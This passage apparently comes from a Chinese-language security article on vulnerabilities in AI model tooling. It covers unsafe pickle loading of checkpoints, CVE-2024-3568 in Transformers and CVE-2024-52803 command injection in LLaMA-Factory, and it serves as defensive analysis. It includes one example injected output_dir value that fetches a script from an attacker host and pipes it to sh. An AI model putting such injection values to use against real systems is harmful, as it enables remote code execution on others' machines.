   
在model_util.py文件中read_checkpoint_meta函数的作用是当模型被下载时，用于将尝试加载模型以检索其元数据。当加载模型时，会判断是否是safetensors和gguf文件格式，safetensors格式不依赖pickle，理论上无代码执行风险。若文件不是safetensors格式，先检查是否启用病毒扫描（默认不启用）。如果扫描发现感染文件，直接报错终止。如果是 .gguf 格式，调用专用加载器。如果是其他格式（如.pth）使用 torch.load 加载。此时torch.load() 依赖 pickle 反序列化，存在漏洞利用点。  
  
  
  
## 反序列化漏洞-CVE-2024-3568  
  
  
CVE-2024-3568 是 Huggingface 的 Transformers 库中存在的一个反序列化漏洞，该漏洞源于 TFPreTrainedModel()  
 类的 load_repo_checkpoint()  
 函数在反序列化未经信任的数据时，使用了不安全的 pickle.load()  
 方法。攻击者可以通过构造恶意的序列化负载，诱使受害者在正常的训练过程中加载看似无害的检查点，从而在目标机器上执行任意代码，导致远程代码执行。  
  
  
此漏洞的利用方式可能包括供应链投毒，即攻击者在模型数据中插入恶意构造的数据，利用反序列化过程触发恶意代码执行。这类攻击的危险性在于，受害者将在不知情的情况下加载被篡改的模型 checkpoint，导致攻击者在其系统上执行任意代码。  
  
  
  
# 三、AI大模型训练微调漏洞  
  
  
	大模型微调工具（如 LLaMA-Factory、Hugging Face Transformers）通过提供分布 式训练加速、自动化参数调优和可视化流程管理，支持用户基于特定领域数据优化模型性 能，实现快速原型开发和部署。   
  
  
	LLaMA-Factory 是一个面向大模型轻量化微调的开源框架，旨在简化大模型的训练、 微调和实验管理流程。其核心功能包括分布式训练加速、可视化流程编排和自动化实验管 理，支持用户通过命令行工具或 Web 界面高效完成模型开发任务。该框架集成了DeepSpeed 和 FSDP 等技术，能够实现多卡并行训练，显著提升大规模数据处理的效 率。其提供的 Web 界面允许用户直观地管理训练参数、监控资源占用，并自动保存最优 检查点和训练指标对比结果，便于实验跟踪与复现。 CVE-2024-52803 是 LLaMA-Factory 框架中一个严重的远程命令注入漏洞，影响版 本为 <=0.9.0。该漏洞的根源在于训练过程中对用户输入的不当处理，具体表现为 Popen()函数在调用时启用了 shell=True 参数，且未对用户提供的 output_dir 值进行任 何验证或过滤。攻击者可通过构造恶意输入（如 /tmp; curl   
http://attacker.com/exploit.sh  
 | sh），将任意命令注入训练进程的上下文，从而在目标 系统上执行任意操作系统命令。   
  
  
	漏洞的核心代码片段位于 src/llamafactory/webui/runner.py，如下图所示。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicPgzNW15qISZDsOgiasYA6CNNapmntr2kT5VV5B3k8bFdx88dI5yicXcqRRYiaV2U8kv3wB2WYzreknA/640?wx_fmt=png&from=appmsg "")  
  
  
其中 save_cmd(args)的返回值直接拼接到命令字符串中，而未经过滤或转义。当用 户通过 Web 界面设置 output_dir 参数时，攻击者可通过注入特殊字符（如分号 ; 或管道 符号 |）实现命令注入。该漏洞的根本原因在于 Popen()函数的不安全使用，特别是 shell=True 选项将命令交给 Shell 解析，并未对用户输入进行过滤或转义。  
  
# 四、AI大模型推理优化部署漏洞  
  
  
	大模型推理优化组件通过一系列技术手段（如模型轻量化转换、动态批处理、量化压 缩、内存分页机制和计算并行化），在模型部署的全生命周期中优化资源利用与计算效率。   
  
  
	部署前优化阶段：将原始模型（如 PyTorch / TensorFlow 格式）转换为轻量级格式 （如 ONNX Runtime 或 TensorRT 引擎支持的格式），通过剪枝、知识蒸馏或低精度量 化（INT8 / FP16）减少模型体积和计算复杂度。   
  
  
	部署后运行时优化阶段：结合服务化框架（如 FastAPI、TorchServe）实现高并发请 求处理，通过动态批处理合并小样本请求以降低 GPU 空闲率，利用缓存机制复用中间结 果，并借助硬件加速（如 NVIDIA Tensor Core、EdgeTPU）进一步提升吞吐量。  
  